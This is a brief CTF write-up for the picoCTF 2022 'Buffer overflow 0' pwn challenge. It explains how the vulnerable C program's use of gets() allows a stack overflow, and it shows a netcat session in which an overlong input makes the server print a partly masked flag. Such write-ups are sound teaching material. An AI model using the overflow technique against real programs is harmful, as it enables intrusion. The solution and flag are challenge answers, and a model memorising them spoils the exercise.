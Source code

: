 ```yaml
---
title: "pico22/pwn: Buffer overflow 0"
date: 2022-04-05 12:16:08
tags:
- ctf
- pico22
- pwn
description: "Writeup for the picoCTF 2022 pwn challenge [Buffer overflow 0]."
permalink: ctfs/pico22/pwn/buffer-overflow-0/
---
```

## 📜 Description
Smash the stack \
Let's start off simple, can you overflow the correct buffer? The program is available  [here](https://artifacts.picoctf.net/c/523/vuln). You can view source  [here](https://artifacts.picoctf.net/c/523/vuln.c). And connect with it using:`nc saturn.picoctf.net 64712`

---

## 🔍 Detailed Solution
Let's analyze this `.c` file we have as reference.
```c
printf("Input: ");
fflush(stdout);
char buf1[100];
gets(buf1);
vuln(buf1);
printf("The program will exit now\n");
return 0;
```
We see that the `gets()` function is called. This function is really, really bad (in addition to being deprecated) as it will write the user's input to the stack without regard to its length, meaning a user's input can exceed its allocated space. We should be able to trigger the flag print by simply inputting a string that is longer than the specified length of 16 in the `vuln` function:
```
# nc saturn.picoctf.net 64712
Input: aaaaaaaaaaaaaaaaaaaaaaaaaaa
picoCTF{ov3rfl0ws_ar3nt_that_bad_********}
```
